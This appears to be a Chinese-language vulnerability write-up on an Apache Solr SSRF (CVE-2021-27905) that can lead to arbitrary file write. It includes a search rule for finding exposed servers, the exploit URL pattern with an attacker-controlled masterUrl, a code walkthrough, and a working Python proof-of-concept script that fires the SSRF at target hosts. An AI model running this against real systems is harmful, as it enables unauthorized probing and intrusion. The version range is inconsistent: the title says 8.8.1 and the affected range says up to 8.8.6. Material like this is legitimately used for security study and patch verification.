

###　Apache Solr 8.8.1 SSRF to Arbitrary File Write Vulnerability


### 漏洞介绍

	Solr是一个独立的企业级搜索应用服务器，它对外提供类似于Web-service的API接口。用户可以通过http请求，向搜索引擎服务器提交一定格式的XML文件，生成索引；
	此漏洞要从SSRF-CVe-2021-27905 说起,漏洞引发原因由于SolrCloud Recovery 策略.

**攻击途径**：`远程`

**认证**：`不需要`

**攻击复杂度**：`低`

#### 影响产品

	Solr 版本<=8.8.6

#### 搜索规则：
	
	app="Apache-Solr"

### RCE前提
	
	1.具有用户权限权限：/home/xxx 或在root目录
	2.存在Core

### 漏洞原理：

	SSRF:
	第一步：访问http://ip:8983/solr/admin/cores?indexInfo=false&wt=json。获取core列表

	

	http://your-ip/solr/{core}/replication/?command=fetchindex&masterUrl=http://{dnslog}

	当程序接收到fetchindex 参数时,会再次获取masterUlr 并进行请求.
	1.处为获取将要请求的url
	2.开启一个线程进行请求


	继续跟进doFetch 函数，发现随后调用了IndexFetcher 方法


	随后进去IndexFetcher 函数，找到发出请求的函数


	至此。SSRF漏洞结束。开始进行任意写文件漏洞。
	继续跟踪函数发现，函数从返回值中获取两个值 并赋值给了latestVersion 与 latestGeneration。


	通过构造返回值latestVersion 绕过if语句。
	随后进入fetchFileList函数，在这个函数中，程序会再次请求目标地址并获取将要下载的filelist


	在这个请求中，程序会获取一个文件列表，其中包含：index文件、conf文件、tlog文件。
	并将在第三个请求中进行相应文件下载。


	在 downloadIndexFiles() 函数中进行第三次请求。


	坑：
	
	进入downloadIndexFiles 函数中走到compareFile时 会报一个错，此时因为使用源码进行程序启动时未加载zookepper ，所以其中需要使用相关的函数会报错。当使用正常程序时则会正常。



	进入downloadConfFiles函数，此函数中可以看到如何进行任意文件写


	
	至此漏洞分析结束。可以看到文件名完全可控，并未进行任何其他处理。


### 验证演示：


### 验证程序

```

import requests
import urllib3
import json
import sys, getopt
urllib3.disable_warnings()

def commit():
    url = ""
    try:
        opt, agrs = getopt.getopt(sys.argv[1:], "hu:d:", ["help", "url=","dnslog="])
        for op, value in opt:
            if op == "-h" or op == "--help":
                print("""
            [-]   Apache Solr SSRF漏洞 (CVE-2021-27905)
            [-]   Options:
                     -h or --help      :   方法说明
                     -u or --url       :   站点URL地址
                     -d or --dnslog    :   DnsLog
                """)
                sys.exit(0)
            elif op == "-u" or op == "--url=":
                url = value
            elif op == "-d" or op == "--dnslog=":
                dnslog = value
            else:
                print("[-] 参数有误! eg:>>> python3 CVE-2021-27905.py -u http://127.0.0.1 -d dnslog")
                sys.exit()
        return url, dnslog

    except Exception as e:
        print("[-] 参数有误! eg:>>> python3 CVE-2021-27905.py -u http://127.0.0.1 -d dnslog")
        sys.exit(0)

def target_core(url):
    target_url = url + "/solr/admin/cores?indexInfo=false&wt=json"
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36"
    }
    try:
        res = requests.get(url=target_url,headers=headers,verify=False,timeout=5)
        print(target_url,'[]',res.text)
        core = list(json.loads(res.text)["status"])[0]
        return core
    except Exception as e:
        print(f"[!]  目标系统: {url} 出现意外！\n ",e)

def ssrf(core,dnslog):
    target_url = url + f"/solr/{core}/replication/?command=fetchindex&masterUrl=http://{dnslog}"
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36"
    }
    try:
        res = requests.get(url=target_url, headers=headers, verify=False, timeout=5)
        print(target_url)
        status = json.loads(res.text)["status"]
        if res.status_code == 200 and status == "OK":
            print(f"[!]  \033[31m目标系统: {url} 可能存在SSRF漏洞，请检查DNSLog响应！\033[0m")
        else:
            print(f"[0]  目标系统: {url} 不存在SSRF漏洞")

    except Exception as e:
        print(f"[!]  目标系统: {url} 出现意外！\n ", e)


if __name__ == "__main__":
    url ,dnslog = commit()
    core = target_core(url)
    ssrf(core,dnslog)

```

### 验证视频：


### 验证程序使用文档：

python3 CVE-2021-27905.py -u url -d dnslog

### 产品程序：


### 攻击流量：


#### 参考资料：

http://noahblog.360.cn/apache-solr-8-8-1-ssrf-to-file-write/

https://www.cnblogs.com/rcfeng/p/4148733.html
